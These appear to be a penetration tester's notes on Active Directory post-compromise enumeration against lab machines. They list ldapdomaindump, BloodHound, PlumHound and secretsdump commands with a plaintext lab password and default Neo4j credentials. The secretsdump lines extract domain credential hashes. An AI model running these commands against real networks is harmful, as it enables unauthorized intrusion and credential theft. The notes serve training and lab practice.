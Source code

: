 
![[Pasted image 20241110192337.png]]

```
Domain Enumeration with 

- [ ] ldapdomaindump 
- [ ] Bloodhound 
- [ ] Domain Enumeration with Plumhound 
- [ ] Domain Enumeration with PingCastle 
```



<h2>Post-Compromise Enumeration</h2>


- [ ] ldapdomaindump
```
ldapdomaindump ldaps://10.10.10.182 -u 'Cascade.local\ArkSvc' -p 'w3lc0meFr31nd'
```

```
ldapdomaindump ldaps://<Domain_IP> -u 'Marvel\fcastle' -p 'w3lc0meFr31nd' -o <directory_name>
```



- [ ] BloodHound
```
bloodhound-python -d Cascade.local -u ArkSvc -p 'w3lc0meFr31nd' -ns 10.10.10.182  -c all 
```



Neo4j
```
neo4j console
```

```
neo4j
neo4j
neo4j1
password
```

run bloodhound
```
bloodhound
```


- [ ] Plumhound
```
git clone https://github.com/PlumHound/PlumHound.git
cd PlumHound
pip3 install -r requirements.txt
```

```
python3 PlumHound.py --easy -p password
```

```
python3 Plumhound.py -x tasks/default.tasks -p password
```
Open the index.html

- [ ] secretsdump

```
secretsdump.py -no-pass -just-dc MULTIMASTER\$@10.10.10.179
```

```
secretsdump.py Cascade.local/ArkSvc:'w3lc0meFr31nd'@10.10.10.182 
```


- [ ] PlumHound

- [ ] PingCastle
- [ ] 